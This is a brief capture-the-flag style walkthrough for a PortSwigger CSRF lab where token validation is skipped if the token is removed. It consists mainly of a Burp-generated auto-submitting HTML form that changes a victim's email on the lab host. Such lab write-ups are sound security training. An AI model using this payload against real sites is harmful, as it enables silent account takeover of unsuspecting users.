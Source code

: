 # Lab: CSRF where token validation depends on token being present

**Link**: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

**Solution**:

Notice that there is no csrf validation if deleted

generate the following html

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af800e804325d24c302dd2800dd0049.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="mohamed&#46;abdelrahman9996&#64;yahoo&#46;comaa" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/blob/main/CSRF/Lab%20CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/image1.png" width="500" hight="500"/>
</p>
